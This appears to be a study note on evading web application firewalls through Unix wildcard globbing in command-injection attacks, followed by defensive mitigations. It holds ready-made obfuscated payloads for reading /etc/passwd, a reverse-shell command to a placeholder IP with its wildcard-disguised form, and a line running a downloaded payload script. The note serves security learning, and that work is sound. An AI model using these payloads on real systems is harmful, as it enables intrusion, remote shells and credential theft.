

# 39.14 Wildcard Bypass

## Introduction

The Wildcard Bypass technique is a highly sophisticated Web Application Firewall (WAF) and filter evasion method that leverages the inherent wildcard expansion (globbing) features of underlying operating system shells, particularly in Unix/Linux environments. This technique is predominantly used to bypass WAFs during Remote Code Execution (RCE) or Command Injection attacks.

When a WAF inspects an HTTP request, it typically relies on strict blacklists of known dangerous commands, such as `cat`, `etc/passwd`, `nc`, `bash`, or `wget`. However, Unix shells (like `bash`, `sh`, `zsh`) resolve wildcard characters (`*`, `?`) to matching filenames or commands *before* execution. By substituting characters in malicious commands with wildcards, attackers can completely obfuscate their payloads, rendering WAF signature matching useless, while the backend shell effortlessly reconstructs and executes the intended command.

This note breaks down the mechanics of Unix globbing, demonstrates various payload obfuscation techniques, and outlines defensive measures to neutralize wildcard-based evasions.

## Core Concepts

### Unix Shell Globbing

Globbing is the process by which the shell expands wildcard patterns into a list of matching pathnames. It is a fundamental feature of the command-line interface.
- `*` matches any number of characters (including zero).
- `?` matches exactly one character.
- `[abc]` matches any one of the characters inside the brackets.

If an attacker wants to execute `cat /etc/passwd`, but the WAF blocks the strings `cat` and `etc`, the attacker can rely on the shell to expand wildcard patterns dynamically.

For example:
- `/bin/cat` can be written as `/b?n/c?t` or `/?in/c*t`
- `/etc/passwd` can be written as `/?tc/?asswd` or `/*tc/*sswd`

When the shell receives the string `/b?n/c?t /?tc/?asswd`, it searches the local filesystem, resolves the path to `/bin/cat /etc/passwd`, and executes it. The WAF never saw the forbidden strings in the HTTP request, so it permitted the request.

## ASCII Diagram: Wildcard Bypass Mechanism



## Exploitation Scenarios and Mechanics

### 1. Bypassing Command Blacklists

WAFs frequently block commands used for establishing reverse shells or exfiltrating data, like `nc`, `netcat`, `curl`, `wget`, `bash`, `perl`, `python`.

**Standard Reverse Shell:**
```bash
nc -e /bin/bash 10.0.0.1 4444
```

**Wildcard Bypass:**
```bash
/b?n/n? -e /b?n/b??h 10.0.0.1 4444
```
If `nc` is located at `/bin/nc`, the shell expands `/b?n/n?` to `/bin/nc`. The WAF signature looking specifically for `nc -e` fails to trigger.

### 2. Uninitialized Variables Bypass

Similar to globbing, attackers can use uninitialized bash variables to break up strings. In bash, an uninitialized variable evaluates to an empty string.

**Payload Variations:**
```bash
c$@at /e$@tc/pas$@swd
c$1at /e$2tc/pas$3swd
c${u}at /e${u}tc/pas${u}swd
```
The WAF sees `c$@at` and misses the signature for `cat`. The shell evaluates `$@` (which is empty) and seamlessly executes `cat`. This is a highly resilient evasion technique.

### 3. Character Sets and Ranges

Using bracket expansion `[]` provides another powerful layer of obfuscation.

**Payload:**
```bash
/[b]in/[c]at /[e]tc/[p]asswd
```
Or utilizing ranges to confuse filters even further:
```bash
/b[h-j]n/c[Z-b]t /e[s-u]c/p[a-c]sswd
```
This approach is incredibly difficult for WAF regular expressions to catch without generating massive amounts of false positives across legitimate traffic.

### 4. Slashes and Quotes Obfuscation

Attackers can mix wildcards with excessive slashes (which Unix simply ignores during path resolution) or quotes.

**Payload:**
```bash
cat ///////etc///////passwd
c'a't /e"t"c/passwd
```
Combined with wildcards:
```bash
/b'i'n/c?t //////?tc/p""a''s?wd
```
The shell reconstructs the clean command, bypassing string-matching WAF engines entirely.

## Advanced Execution: Tool Invocation without Names

If an attacker cannot predict the exact path or character combination due to aggressive filtering, they can use wildcards to dynamically invoke tools.

For instance, to execute a reverse shell script named `payload.sh` downloaded in the `/tmp` directory, but the word `bash` is totally blocked:
```bash
/*in/*sh /t?p/p?ylo?d.sh
```
This resolves dynamically to `/bin/bash /tmp/payload.sh` (or `/bin/sh`), successfully executing the script.

## Mitigation and Defense Strategies

### 1. Avoid Executing Shell Commands
The absolute best defense against wildcard bypasses and command injection is to never invoke a system shell. Use built-in language APIs (e.g., Python's `os.exec` or `subprocess.run` with `shell=False`, Java's `ProcessBuilder`). When a shell is not explicitly spawned, wildcard globbing does not occur. Passing `/b?n/c?t` will simply result in a "File not found" error, neutralizing the exploit.

### 2. Strict Input Validation (Allowlisting)
Instead of using a WAF to blacklist bad commands, use strict allowlisting on the application layer. If an input is supposed to be an IP address, validate it using a regular expression that *only* accepts IP addresses (e.g., `^[0-9]{1,3}(\.[0-9]{1,3}){3}$`). Any presence of `?`, `*`, `$`, or `/` will be immediately rejected before execution.

### 3. WAF Behavioral Analysis
Modern WAFs and RASP (Runtime Application Self-Protection) solutions should move beyond simple regex signatures. RASP solutions operate within the application runtime and monitor the actual system calls made by the application. Even if the payload is `/b?n/c?t`, the RASP sees the application attempting to execute the `execve` syscall for `/bin/cat` and blocks it, completely neutralizing wildcard obfuscation at the OS level.

### 4. System Hardening
Implement the principle of least privilege. The web application user (e.g., `www-data`) should not have permissions to execute binaries like `nc`, `wget`, or `curl` unless absolutely necessary. Chroot jails and strict AppArmor/SELinux profiles can prevent the execution of arbitrary binaries, mitigating the impact of successful command injection regardless of WAF evasion.

## Chaining Opportunities
- **Command Injection:** The primary vulnerability exploited using this bypass technique.
- **Remote Code Execution (RCE):** Bypassing WAFs to establish reverse shells and gain persistent access.
- **Server-Side Request Forgery (SSRF):** Obfuscating URLs and parameters in `curl` or `wget` commands.

## Related Notes
- [[17 - Command Injection Evasion]]
- [[25 - RASP vs WAF]]
- [[05 - WAF Evasion Basics]]
- [[15 - Out-of-Band Bypass]]
